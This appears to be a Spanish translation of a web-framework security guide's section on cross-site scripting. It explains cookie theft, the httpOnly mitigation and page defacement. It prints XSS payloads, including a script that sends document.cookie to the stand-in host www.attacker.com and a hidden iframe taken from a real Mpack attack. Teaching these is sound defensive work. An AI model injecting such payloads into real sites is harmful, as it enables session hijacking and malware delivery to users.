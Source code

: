 Este código JavaScript simplemente mostrará un cuadro de alerta. Los siguientes ejemplos hacen exactamente lo mismo, solo que en lugares muy poco comunes:

```html
<img src=javascript:alert('Hello')>
<table background="javascript:alert('Hello')">
```

##### Cookie Theft

Estos ejemplos no hacen ningún daño hasta ahora, así que veamos cómo un atacante puede robar la cookie del usuario (y así secuestrar la sesión del usuario). En JavaScript, puede usar la propiedad `document.cookie` para leer y escribir la cookie del documento. JavaScript aplica la misma política de origen, lo que significa que un script de un dominio no puede acceder a las cookies de otro dominio. La propiedad `document.cookie` contiene la cookie del servidor web de origen. Sin embargo, puede leer y escribir esta propiedad si incrusta el código directamente en el documento HTML (como sucede con XSS). Inyecte esto en cualquier lugar de su aplicación web para ver su propia cookie en la página de resultados:

```
<script>document.write(document.cookie);</script>
```

Para un atacante, por supuesto, esto no es útil, ya que la víctima verá su propia cookie. El siguiente ejemplo intentará cargar una imagen de la URL http://www.attacker.com/ más la cookie. Por supuesto, esta URL no existe, por lo que el navegador no muestra nada. Pero el atacante puede revisar los archivos de registro de acceso de su servidor web para ver la cookie de la víctima.


```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

Los archivos de registro en www.attacker.com se leerán así:

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

Puede mitigar estos ataques (de la manera obvia) agregando la marca **httpOnly** a las cookies, de modo que JavaScript no pueda leer `document.cookie`. Las cookies solo HTTP se pueden utilizar desde IE v6.SP1, Firefox v2.0.0.5, Opera 9.5, Safari 4 y Chrome 1.0.154 en adelante. Pero otros navegadores más antiguos (como WebTV e IE 5.5 en Mac) pueden hacer que la página no se cargue. Sin embargo, tenga en cuenta que las cookies seguirán siendo visibles utilizando Ajax mediante [will still be visible using Ajax](https://www.owasp.org/index.php/HTTPOnly#Browsers_Supporting_HttpOnly).

##### Defacement

Con la desfiguración de la página web, un atacante puede hacer muchas cosas, por ejemplo, presentar información falsa o atraer a la víctima al sitio web del atacante para robar la cookie, las credenciales de inicio de sesión u otros datos confidenciales. La forma más popular es incluir código de fuentes externas mediante iframes:

```html
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
```

Esto carga HTML arbitrario y / o JavaScript de una fuente externa y lo incrusta como parte del sitio. Este `iframe` se toma de un ataque real a sitios italianos legítimos utilizando el [Mpack attack framework](https://isc.sans.edu/diary/MPack+Analysis/3015). Mpack intenta instalar software malicioso a través de agujeros de seguridad en el navegador web; con mucho éxito, el 50% de los ataques tienen éxito.
